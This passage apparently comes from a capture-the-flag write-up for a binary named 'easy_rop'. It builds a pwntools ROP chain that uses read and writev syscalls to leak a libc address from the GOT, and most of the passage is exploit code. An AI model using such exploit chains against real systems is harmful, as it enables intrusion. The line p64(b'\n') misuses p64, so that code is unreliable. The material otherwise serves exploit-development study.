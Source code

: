 ```python3
payload += p64(0x404020)   # RBP Overwrite: Beginning Address of .data + 0x20
payload += p64(0x40110a)   # execute read syscall
payload += p64(0xdeadbeef) # garbage RBP value
```

Now we will send in the struct value padded to `0x14` bytes because the writev syscall requires `RAX` to be `0x14`.

```python3
input("Press Enter to send next payload\n")

struct_payload = p64(0x403fc8)   # Address of the .got table
struct_payload += p64(0x8)       # 8 bytes to read
struct_payload += b"\x00" * 4    # Padding to get the total length to 0x14
p.send(struct_payload)
```

- IMPORTANT: When all the payloads send instantly, it screws with the exploit. Normally, this is handled by having
`p.recv()` calls in between payloads, but this program does not naturally send us any data we can use as checkpoints.
Because of this, I've added an input
statement before each payload. To send the next payload, you just press enter in the terminal.

Now we have `RSI` set to point to our struct and `RAX` set to `0x14`. We just need to set `RDI` to `0x1` (representing stdout) 
and then perform the syscall.

We will modify our previous payload to redirect execution to the `pop rdi` instruction
found in `weird_func()`. And then we will redirect execution to the syscall.

```python3
payload += p64(0x40112e)   # Pop RDI Instruction
payload += p64(0x1)        # stdout
payload += p64(0xdeadbeef) # Garbage RBP Value
payload += p64(0x401126)   # syscall instruction
payload += p64(0xdeadbeef) # Garbage RBP Value
payload += p64(b"\n")
```

Then executing this syscall will print the address of `__libc_start_main` from the .got table. 
We can then capture this address and then set the context of our `libc.so.6` library provided by the docker
file.

```python3
lib = ELF("libc.so.6")

libc_address = int.from_bytes(p.recv(), byteorder="little")
lib.address = libc_address - lib.symbols["__libc_start_main"]
```

Exploit so far:

```python3
from pwn import *

exe = context.binary = ELF("./easy_rop")
p = process("./easy_rop")

payload = b"\x90" * 32
payload += p64(0x404020)   # RBP Overwrite: Beginning Address of .data + 0x20
payload += p64(0x40110a)   # execute read syscall
payload += p64(0xdeadbeef) # garbage RBP value
payload += p64(0x40112e)   # Pop RDI Instruction
payload += p64(0x1)        # RDI Value
payload += p64(0xdeadbeef) # Garbage RBP Value
payload += p64(0x401126)   # syscall instruction
payload += p64(0xdeadbeef) # Garbage RBP Value
```